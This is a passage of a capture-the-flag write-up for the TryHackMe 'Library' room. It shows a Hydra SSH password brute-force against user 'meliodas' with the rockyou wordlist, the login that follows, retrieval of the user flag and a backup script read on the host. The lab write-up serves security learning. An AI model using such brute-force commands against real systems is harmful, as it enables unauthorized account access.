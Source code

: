 ## hydra
```
~/CTF/tryhackme/library$ hydra -t 20 -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://$IP
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-22 14:50:10
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 20 tasks per 1 server, overall 20 tasks, 14344399 login tries (l:1/p:14344399), ~717220 tries per task
[DATA] attacking ssh://10.10.60.21:22/
[STATUS] 224.00 tries/min, 224 tries in 00:01h, 14344179 to do in 1067:17h, 20 active
[22][ssh] host: 10.10.60.21   login: meliodas   password: <insert-password-here>
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 7 final worker threads did not complete until end.
[ERROR] 7 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-22 14:51:53
```
Next steps - lets check out the ssh with the username and new password.

## ssh

```
~/CTF/tryhackme/library$ ssh meliodas@$IP
The authenticity of host '10.10.159.151 (10.10.159.151)' can't be established.
ECDSA key fingerprint is SHA256:sKxkgmnt79RkNN7Tn25FLA0EHcu3yil858DSdzrX4Dc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.159.151' (ECDSA) to the list of known hosts.
meliodas@10.10.159.151's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Sat Aug 24 14:51:01 2019 from 192.168.15.118
meliodas@ubuntu:~$ ls
bak.py  user.txt
meliodas@ubuntu:~$ cat user.txt 
<insert-user-flag-here>
```
So after a quick look around we have the user flag and able to view a bak.py file. To me it looks as though it backs up the website on the server.
```
meliodas@ubuntu:~$ cat bak.py 
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```
Lets check our permission level and see what surprises we have in store.
```
```